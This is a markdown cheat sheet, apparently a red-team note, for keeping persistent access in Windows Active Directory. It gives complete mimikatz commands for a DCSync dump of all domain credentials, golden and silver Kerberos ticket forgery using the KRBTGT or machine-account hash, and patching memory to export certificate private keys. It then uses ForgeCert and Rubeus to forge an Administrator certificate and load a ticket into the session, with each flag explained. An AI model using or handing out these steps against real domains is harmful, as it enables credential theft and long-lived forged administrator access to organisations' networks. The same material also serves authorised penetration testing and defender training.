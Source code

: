 
# #Persistence with Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# #Persistence with Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain


# #Persistence with Certificates:
  - **view the Stored certificates on the DC**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine
  ```
  - **patch memory to make private keys exportable**
  ```
  mimikatz # crypto::capi
  mimikatz # crypto::cng
  ```
  - **Use mimikatz to Export the certificates:**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine /export
  # now we have PFX or DER file
  ```
  - **if we have the private key and root CA certificate, we can forge a Client Authenticate certificate for any user we want.**
  ```
  ForgeCert.exe --CaCertPath Filename.pfx --CaCertPassword <filepassword> --Subject CN=User --SubjectAltName Administrator@<FQDN> --NewCertPath fullAdmin.pfx --NewCertPassword Password123
  ```
  - **We can use Rubeus to request a TGT using the certificate**
  ```
    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<certFile> /password:<certFile-password> /outfile: /domain:<DomainName> /dc:<DC-IP>
  ```
  - **Use mimikatz to use TGT to Authenticate to LogonServer**
  ```
  mimikatz # kerberos::ptt administrator.kirbi
  mimikatz # exit
  # Done! we have the session.
  ```
  
